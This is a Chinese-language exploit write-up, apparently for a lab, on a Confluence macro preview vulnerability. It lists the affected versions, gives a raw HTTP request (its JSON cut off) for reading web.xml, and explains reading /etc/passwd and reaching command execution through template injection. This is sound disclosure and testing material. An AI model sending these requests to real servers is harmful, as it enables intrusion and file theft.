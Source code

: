 漏洞影響
--------

    所有1.xx，2.xx，3.xx，4.xx和5.xx版本

    所有6.0.x，6.1.x，6.2.x，6.3.x，6.4.x和6.5.x版本

    6.6.12之前的所有6.6.x版本

    所有6.7.x，6.8.x，6.9.x，6.10.x和6.11.x版本

    6.12.3之前的所有6.12.x版本

    6.13.3之前的所有6.13.x版本

    6.14.2之前的所有6.14.x版本

漏洞利用
--------

發送如下數據包，即可讀取文件web.xml

    POST /rest/tinymce/1/macro/preview HTTP/1.1
    Host: localhost:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
    Content-Type: application/json; charset=utf-8
    Content-Length: 176

    {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","w

6.12以前的Confluence沒有限製文件讀取的協議和路徑，我們可以使用file:///etc/passwd來讀取文件，也可以通過https://...來加載遠程文件。

該文件是一個Velocity模板，我們可以通過模板注入（SSTI）來執行任意命令。